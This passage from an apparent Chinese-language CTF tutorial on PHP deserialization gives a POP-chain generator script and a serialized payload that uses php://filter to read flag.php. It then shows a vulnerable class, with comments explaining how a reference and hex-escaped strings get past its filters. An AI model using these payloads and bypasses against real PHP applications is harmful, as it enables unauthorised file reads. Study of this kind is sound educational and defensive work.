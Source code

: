 ```php
<?php
class Modifier {
    protected $var='php://filter/read=convert.base64-encode/resource=flag.php';
}
class Show{
    public $source;
    public $str;
}
class Test{
    public $p;
}
$show1=new Show();
$show2=new Show();
$test=new Test();
$modifier=new Modifier();
$show1->str=$test;
$test->p=$modifier;
$show2->source=$show1;
var_dump(serialize($show2));
?>
```

payload`?pop=O:4:"Show":2:{s:6:"source";O:4:"Show":2:{s:6:"source";N;s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:6:"%00*%00var";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}}}s:3:"str";N;}`

注意Modifier中的$var为protected变量要表示为`%00*%00var`

### 样例4

```php
<?php
class MyFile {
    public $name;
    public $user;
    public function __construct($name, $user) {
        $this->name = $name;
        $this->user = $user; 
    }
    public function __toString(){
        return file_get_contents($this->name);
    }
    public function __wakeup(){
        if(stristr($this->name, "flag")!==False) 
            $this->name = "/etc/hostname";
        else
            $this->name = "/etc/passwd"; 
        if(isset($_GET['user'])) {
            $this->user = $_GET['user']; //user可控,但name不可控,通过&使name取user的值,进而达到控制name的目的
        }
    }
    public function __destruct() {
        echo $this; //__toString
    }
}
if(isset($_GET['input'])){
    $input = $_GET['input']; 
    if(stristr($input, 'user')!==False){//$input中不能出现user,在反序列化时用大写的S替换小写的s即可用16进制表示user,进而绕过限制
        die('Hacker'); 
    } else {
        unserialize($input);
    }
}else { 
    highlight_file(__FILE__);
```